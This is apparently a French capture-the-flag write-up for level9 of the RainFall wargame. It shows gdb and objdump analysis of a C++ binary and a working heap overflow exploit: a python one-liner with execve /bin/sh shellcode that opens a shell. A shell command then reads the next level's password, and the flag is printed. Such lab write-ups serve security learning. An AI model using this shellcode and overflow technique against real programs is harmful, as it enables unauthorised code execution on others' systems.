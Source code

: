 ```
level9@RainFall:~$ ls
level9
level9@RainFall:~$ ./level9
level9@RainFall:~$ ./level9 55
level9@RainFall:~$ ./level9 55 66
level9@RainFall:~$ ./level9 55 663333333333
level9@RainFall:~$ ./level9
```
Donc nous avaons un executable qui ne fait rien.
Il semble que ce soit du cpp

```
objdump -M intel -d level9

# on remarque
8048677:	e8 92 00 00 00       	call   804870e <_ZN1N13setAnnotationEPc>

0804870e <_ZN1N13setAnnotationEPc>:
 804870e:	55                   	push   ebp
 804870f:	89 e5                	mov    ebp,esp
 8048711:	83 ec 18             	sub    esp,0x18
 8048714:	8b 45 0c             	mov    eax,DWORD PTR [ebp+0xc]
 8048717:	89 04 24             	mov    DWORD PTR [esp],eax
 804871a:	e8 01 fe ff ff       	call   8048520 <strlen@plt>
 804871f:	8b 55 08             	mov    edx,DWORD PTR [ebp+0x8]
 8048722:	83 c2 04             	add    edx,0x4
 8048725:	89 44 24 08          	mov    DWORD PTR [esp+0x8],eax
 8048729:	8b 45 0c             	mov    eax,DWORD PTR [ebp+0xc]
 804872c:	89 44 24 04          	mov    DWORD PTR [esp+0x4],eax
 8048730:	89 14 24             	mov    DWORD PTR [esp],edx
 8048733:	e8 d8 fd ff ff       	call   8048510 <memcpy@plt>
 8048738:	c9                   	leave
 8048739:	c3                   	ret

```
On observe un memcpy sur un strlen, on peux donc penser qu'il est possible de faire overflow le programme, essayons
avec eax etant un pointeur sur le second argument.
Tandis que edx pointe lui sur le premier argument

```
# https://projects.jason-rush.com/tools/buffer-overflow-eip-offset-string-generator/ size 150
(gdb) run 'Aa0Aa1Aa2Aa3Aa4Aa5Aa6Aa7Aa8Aa9Ab0Ab1Ab2Ab3Ab4Ab5Ab6Ab7Ab8Ab9Ac0Ac1Ac2Ac3Ac4Ac5Ac6Ac7Ac8Ac9Ad0Ad1Ad2Ad3Ad4Ad5Ad6Ad7Ad8Ad9Ae0Ae1Ae2Ae3Ae4Ae5Ae6Ae7Ae8Ae9'

Program received signal SIGSEGV, Segmentation fault.
0x08048682 in main ()
info register eax
eax            0x41366441	1094083649
Offset de 108
```

Shellcode : '\x31\xc0\x50\x68\x2f\x2f\x73\x68\x68\x2f\x62\x69\x6e\x89\xe3\x50\x89\xe2\x53\x89\xe1\xb0\x0b\xcd\x80' # http://shell-storm.org/shellcode/files/shellcode-827.php

On remarque donc que EAX est situé à partir de 108 caracteres.
L'objectif va etre d'utiliser le call à la fonction set annotation avec l'argument argv[1] puisqu'il s'agit de notre seul point d'entrée.
Faisons un breakpoint sur le memcpy pour observer.

```
gdb ./level9
gdb) b memcpy
Breakpoint 1 at 0x8048510
(gdb) r "AAAA"
Starting program: /home/user/level9/level9 "AAAA"

Breakpoint 1, 0xb7dc5920 in ?? () from /lib/i386-linux-gnu/libc.so.6
(gdb) x/4x $esp
0xbffff69c:	0x08048738	0x0804a00c	0xbffff8d4	0x00000004
```

Donc on retiens 0x0804a00c qui correspond à notre premier argument auquel on ajoute 4 afin de la deferencer pour la faire commencer au debut du shell.
0x804a010

Notre shellcode fait 28 bytes, notre adresse 4, l'adresse du buffer 4 donc notre padding 76 .

```
./level9 $(python -c 'print "\x10\xa0\x04\x08"+"\x31\xc0\x50\x68\x2f\x2f\x73\x68\x68\x2f\x62\x69\x6e\x89\xe3\x89\xc1\x89\xc2\xb0\x0b\xcd\x80\x31\xc0\x40\xcd\x80"+"\x90"*(76)+"\x0c\xa0\x04\x08"')
# un shell s'ouvre
$ cat /home/user/bonus0/.pass
f3f0004b6f364cb5a4147e9ef827fa922a4861408845c26b6971ad770d906728
```

